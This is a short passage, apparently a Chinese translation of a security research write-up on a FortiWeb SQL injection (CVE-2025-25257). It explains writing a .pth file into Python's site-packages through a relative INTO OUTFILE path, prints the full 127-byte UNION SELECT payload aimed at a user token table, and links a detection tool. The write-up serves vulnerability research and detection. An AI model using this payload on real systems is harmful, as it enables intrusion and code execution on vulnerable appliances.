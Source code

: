   
不幸的是，MySQL 又给了我们一个错误——事实证明它不支持在 
```
INTO OUTFILE
```

  
中使用通配符 (globbing)。真遗憾。  
  
好吧，新想法：如果我们使用相对路径而不是绝对路径呢？  
  
好消息——这奏效了。  
  
通过在 
```
INTO OUTFILE
```

  
查询中使用相对路径，MySQL 会将其解析为相对于进程工作目录的路径——而该目录恰好非常接近 Python 的 
```
site-packages
```

  
目录。我们使用了：  

```
bash
../../lib/python3.10/site-packages/x.pth
```

  
最终的 payload 是什么？  

```
sql
'/**/UNION/**/SELECT/**/token/**/from/**/fabric_user.user_table/**/into/**/outfile/**/'../../lib/python3.10/site-packages/x.pth'
```

  
总长度：**127 字节**  
。正好多出一个字节。运气不错。  
# 检测特征生成器  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCM8OiaFFdRfrz0MY2VojWkkibA7sGwyica0DaWfCUSvIbcycJTIaaiaPD9zzcK96pm8M3jdVfGurQ3r6A/640?wx_fmt=png&from=appmsg "")  
  
https://github.com/watchtowrlabs/watchTowr-vs-FortiWeb-CVE-2025-25257  
  
